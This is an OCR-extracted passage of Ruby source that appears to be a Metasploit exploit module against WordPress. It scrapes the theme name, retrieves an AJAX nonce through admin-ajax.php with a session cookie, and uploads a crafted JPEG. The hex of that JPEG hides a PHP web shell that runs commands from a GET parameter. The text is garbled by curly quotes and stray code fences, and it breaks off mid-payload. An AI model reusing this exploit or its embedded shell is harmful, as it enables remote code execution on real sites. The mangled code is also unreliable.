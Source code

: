 theme = res.body.scan(/\/wp-content\/themes\/(\w+)\//).flatten.first
fail_with(Failure::NotFound, 'Failed to retrieve theme') unless theme

theme 
```

end

def get_ajaxnonce(cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(

‘method’    => ‘POST’,

‘uri’       => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘action’ => ‘query-attachments’,

‘post_id’ => ‘0’,

‘query[item]’ => ‘43’,

‘query[orderby]’ => ‘date’,

‘query[order]’ => ‘DESC’,

‘query[posts_per_page]’ => ‘40’,

‘query[paged]’ => ‘1’

}

)

fail_with(Failure::NotFound, ‘Unable to reach page to retrieve the ajax nonce’) unless res && res.code == 200 && res.body && !res.body.empty?

a_nonce = res.body.scan(/“edit”:"(\w+)"/).flatten.first

fail_with(Failure::NotFound, ‘Unable to retrieve the ajax nonce’) unless a_nonce

```
a_nonce 
```

end

def upload_file(img_name, wp_nonce, cookie)

img_data = %w[

FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 00 60 00 60 00 00 FF ED 00 38 50 68 6F

74 6F 73 68 6F 70 20 33 2E 30 00 38 42 49 4D 04 04 00 00 00 00 00 1C 1C 02 74 00

10 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B 3F 3E 1C 02 00 00 02 00 04 FF FE 00

3B 43 52 45 41 54 4F 52 3A 20 67 64 2D 6A 70 65 67 20 76 31 2E 30 20 28 75 73 69

```